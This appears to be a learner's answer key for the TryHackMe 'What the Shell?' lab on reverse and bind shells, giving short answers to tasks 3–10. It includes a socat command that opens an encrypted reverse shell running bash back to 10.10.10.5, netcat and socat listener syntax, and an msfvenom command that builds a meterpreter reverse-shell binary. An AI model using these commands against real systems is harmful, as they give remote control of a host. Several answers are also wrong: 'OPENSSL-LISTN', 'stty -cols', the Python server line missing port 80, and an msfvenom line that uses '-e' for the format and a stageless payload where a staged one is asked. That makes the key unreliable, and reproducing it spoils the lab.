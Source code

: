 # TryHackMe What the Shell?


> Saikat Karmakar | Aug 12 : 2021

---

## Task 3

1. Which type of shell connects back to a listening port on your computer, Reverse (R) or Bind (B)?
```
R
```
2. You have injected malicious shell code into a website. Is the shell you receive likely to be interactive? (Y or N)
```
N
```
3. When using a bind shell, would you execute a listener on the Attacker (A) or the Target (T)?
```
T
```

## Task 4

1. Which option tells netcat to listen?
```
-l
```
2. How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?
```
nc 10.10.10.11 8080
```

## Task 5

1. How would you change your terminal size to have 238 columns?
```
stty -cols 238
```
2. What is the syntax for setting up a Python3 webserver on port 80?
```
sudo python3 -m http.server
```

## Task 6

1. How would we get socat to listen on TCP port 8080?
```
tcp-l:8080
```

## Task 7

1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"
```
socat OPENSSL-LISTN:53,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
```
2. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?
```
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Task 8

1. What command can be used to create a named pipe in Linux?
```
mkfifo
```

## Task 9

1. Which symbol is used to show that a shell is stageless?
```
_	
```
2. What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell
```
msfvenom -p linux/x64/meterpreter_reverse_tcp -e elf -o shell lhost=10.10.10.5 lport=443
```

## Task 10

1. What command can be used to start a listener in the background?
```
exploit -j
```
2. If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?
```
sessions 10
```

